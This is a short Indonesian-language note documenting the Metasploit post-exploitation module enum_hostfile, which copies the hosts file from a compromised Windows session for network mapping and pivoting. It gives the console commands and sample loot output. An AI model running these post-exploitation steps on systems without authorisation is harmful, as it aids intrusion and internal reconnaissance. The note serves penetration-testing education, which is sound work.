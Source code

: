 # enum_hostfile

Modul enum_hostfile di Metasploit adalah modul post-exploitation untuk sistem Windows yang digunakan untuk mengekstrak isi file hosts dari sistem target, guna mengidentifikasi pemetaan nama host lokal ke alamat IP yang mungkin digunakan untuk pivoting atau analisis jaringan internal.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_hostfile
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Hosts file saved: /root/.msf4/loot/20250517025910_default_192.168.1.53_hosts.confige_898765.txt
[*] Post module execution completed
```
